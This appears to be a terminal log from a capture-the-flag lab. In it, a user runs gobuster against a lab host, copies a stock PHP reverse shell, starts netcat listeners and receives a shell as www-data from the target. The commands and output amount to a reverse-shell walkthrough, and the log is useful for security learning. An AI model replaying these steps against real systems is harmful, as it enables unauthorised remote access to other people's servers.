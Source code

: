 /vendor               (Status: 301) [Size: 313] [--> http://10.10.34.138/vendor/]
Progress: 54290 / 220561 (24.61%)^Z
[1]  + 431239 suspended  gobuster dir -u http://10.10.34.138 -w 
➜  zSecurity_Client_CTF locate php reverse shell
/home/alpha/alpha-academy/holo/External-Penetration-Testing-Holo-Corporate-Network-TryHackMe-Holo-Network/img/reverse-shell-php.png
/home/alpha/alpha-academy/holo/External-Penetration-Testing-Holo-Corporate-Network-TryHackMe-Holo-Network/img/upload-reverse-shell-php.png
/home/alpha/ctf/BankCTF/php-reverse-shell.php
/home/alpha/ctf/DAv/php-reverse-shell.php
/home/alpha/ctf/academy/php-reverse-shell.php
/home/alpha/ctf/colddbox/php-reverse-shell.php
/home/alpha/ctf/convertmyvideo/php-reverse-shell.php
/home/alpha/ctf/mr-robot/php-reverse-shell.php
/home/alpha/ctf/mr-robot/vm/php-reverse-shell-1.0
/home/alpha/ctf/mr-robot/vm/php-reverse-shell-1.0.tar.gz
/home/alpha/ctf/mr-robot/vm/php-reverse-shell-1.0/CHANGELOG
/home/alpha/ctf/mr-robot/vm/php-reverse-shell-1.0/COPYING.GPL
/home/alpha/ctf/mr-robot/vm/php-reverse-shell-1.0/COPYING.PHP-REVERSE-SHELL
/home/alpha/ctf/mr-robot/vm/php-reverse-shell-1.0/hash.txt
/home/alpha/ctf/mr-robot/vm/php-reverse-shell-1.0/password.raw-md5
/home/alpha/ctf/mr-robot/vm/php-reverse-shell-1.0/php-reverse-shell.php
/home/alpha/ctf/mr-robot/vm/php-reverse-shell-1.0/php-reverse-shell.php.zip
/home/alpha/cybergirl/What-the-Shell?/php-reverse-shell.php
/home/alpha/vulnhub/pwnlab/php-reverse-shell.php
/home/alpha/vulnhub/stapler/php-reverse-shell.php
/usr/share/laudanum/php/php-reverse-shell.php
/usr/share/laudanum/wordpress/templates/php-reverse-shell.php
/usr/share/webshells/php/php-reverse-shell.php
➜  zSecurity_Client_CTF cp /usr/share/webshells/php/php-reverse-shell.php .
➜  zSecurity_Client_CTF ls
README.md  php-reverse-shell.php
➜  zSecurity_Client_CTF subl php-reverse-shell.php 
➜  zSecurity_Client_CTF mv php-reverse-shell.php shell.php
➜  zSecurity_Client_CTF nc -nvlp 4444
retrying local 0.0.0.0:4444 : Address already in use
retrying local 0.0.0.0:4444 : Address already in use
^Z
[2]  + 442753 suspended  nc -nvlp 4444
➜  zSecurity_Client_CTF nc -nvlp 4444
retrying local 0.0.0.0:4444 : Address already in use
retrying local 0.0.0.0:4444 : Address already in use
^C
➜  zSecurity_Client_CTF subl shell.php 
➜  zSecurity_Client_CTF nc -nvlp 4443                   
listening on [any] 4443 ...
^C
➜  zSecurity_Client_CTF mv shell.php rev.php
➜  zSecurity_Client_CTF nc -nvlp 4443       
listening on [any] 4443 ...
^C
➜  zSecurity_Client_CTF nc -lvnp 4443
listening on [any] 4443 ...
^C
➜  zSecurity_Client_CTF subl rev.php        
➜  zSecurity_Client_CTF nc -lvnp 4443
listening on [any] 4443 ...
connect to [10.8.5.88] from (UNKNOWN) [10.10.34.138] 34486
Linux client-ctf 4.15.0-147-generic #151-Ubuntu SMP Fri Jun 18 19:21:19 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 18:45:01 up 42 min,  0 users,  load average: 0.00, 0.00, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
